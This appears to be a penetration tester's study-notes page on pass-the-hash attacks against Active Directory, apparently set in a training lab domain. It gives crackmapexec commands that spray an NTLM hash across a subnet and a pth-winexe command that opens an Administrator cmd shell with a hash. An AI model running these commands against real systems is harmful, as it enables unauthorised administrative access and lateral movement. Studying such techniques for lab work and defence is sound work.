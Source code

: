 - - - 
# What the hack is this? : 
Here we don't need to crack hashes for password then shell. 
Here we can can directly get a shell with hashes itself. ( **Yes it's True** ) 
![Imgur](https://i.imgur.com/DuYca15.jpg)

> [! NOTE ]
> But we can only perform this attack with NTLM hashes, This will not work with NTLMv2 hashes.


- - -
## Attacking Steps :

```sh
cme smb 10.10.10.0/24 -u Thor -d Marvel.local -H <HASH>
cme smb 10.10.10.0/24 -u Thor -d Marvel.local -H <HASH> --local-auth
```

Then use this : [[_Active Directory/Gaining Shells/Basic]]

**OR TRY THIS** 

```sh
pth-winexe -U Administrator%<FULL-Hash>//10.11.0.22 cmd
```

- - -
### Mitigations :

![Imgur](https://i.imgur.com/UNH1U1J.png)

- - -

